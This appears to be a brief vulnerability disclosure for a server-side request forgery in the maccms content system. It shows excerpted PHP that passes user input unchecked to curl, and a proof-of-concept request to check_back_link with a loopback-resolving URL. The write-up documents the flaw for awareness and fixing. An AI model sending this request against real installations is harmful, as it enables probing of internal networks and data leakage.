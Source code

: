 ### Maccms

- **Application**: maccms<= v2021.1000.2000

- **Threat Impact**: Sensitive data leakage

- **Code**:

  ```
  class Receive {
  public function __construct() {
  
   $this->_param = input('','','trim,urldecode');
  }
  
  public function vod() {
    $data['data'][] = $info;
    $res = model('Collect')->vod_data([],$data,0);
  }
  }
  
  class Collect {
    public function vod_data($param,$data,$show=1){
      foreach($data['data'] as $k=>$v){
        $this->syncImages($config['pic'], $v['vod_pic'], 'vod');
      }
      
      public function syncImages($pic_status,$pic_url,$flag='vod'){
        model('Image')->down_load($pic_url, ...);
      }
    }
  }
  
  class Image {
  public function down_load($url,$config,$flag='vod') {
    $this->down_exec($url,$config,$flag);
  }
  
  public function down_exec($url,$config,$flag='vod') {
    mac_curl_get($url);
  }
  }
  
  function mac_curl_get($url,$heads=array(),$cookie='') {
  $ch = curl_init($url);
  curl_exec($ch);
  }
  ```

- **POC**:

  1. Listen on 8888 on server side
  1. `curl http://server/admin.php/admin/index/check_back_link?url=http://127.0.0.1.traefik.me:8888`
  1. Receive a request on server side. 

